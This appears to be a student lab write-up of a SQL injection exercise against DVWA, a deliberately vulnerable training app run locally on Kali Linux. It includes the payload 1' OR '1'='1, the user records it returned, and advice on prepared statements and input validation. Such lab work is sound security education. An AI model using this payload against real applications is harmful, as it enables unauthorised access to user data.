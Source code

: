 # SQL Injection Exploitation - DVWA

## Objective
The goal of this task was to set up a vulnerable web application (DVWA) and perform an SQL Injection (SQLi) attack to exploit it. This helps understand how SQLi works and how to mitigate it.

---

## Tools Used
- **Kali Linux**
- **DVWA (Damn Vulnerable Web Application)**
- **Firefox Browser (for accessing DVWA locally)**

---

## Setup Steps

1. **Installed DVWA**  
   Command used:
   ```bash
   sudo apt install dvwa
   ```

2. **Started DVWA**
   ```bash
   dvwa-start
   ```

3. **Accessed in browser**  
   Opened:
   ```
   http://127.0.0.1:42001
   ```

4. **Navigated to**  
   `SQL Injection` module from the left panel.

---

## SQL Injection Performed

- **Tested User ID with SQL Injection:**
  ```
  1' OR '1'='1
  &
  1
  ```

- **Result:**  
  Successfully bypassed the user ID filter and retrieved multiple users from the database including:
  ```
  For 1' OR '1'='1
  ID: 1' OR '1'='1
  First name: admin
  Surname: admin
  First name: Gordon
  Surname: Brown
  First name: Pablo
  Surname: Picasso
  First name: Bob
  Surname: Smith
  
  &
  
  For 1
  ID: 1
  First name: admin
  Surname: admin
  ```

---

## How It Works

The payload:
```
1' OR '1'='1
```
Breaks the SQL query logic and forces the database to always return true, retrieving all records.
```
1
```
Shows only user with ID 1

---

## How to Patch This Vulnerability

To fix SQL Injection in real applications:
- Use **prepared statements** (parameterized queries)
- Validate and sanitize all user inputs
- Limit database permissions
- Implement **Web Application Firewalls (WAF)**
- Regularly test for vulnerabilities using scanners

---

## Deliverables

- **Screenshots Provided** showing:
  - DVWA installation
  - DVWA SQL Injection module usage
  - Successful SQLi execution

- **Note:** No `.sh` script was created since the process was entirely manual via web browser.

---

## Conclusion

This exercise helped in understanding how a basic SQL injection attack works and the importance of input validation and prepared statements to secure web applications.



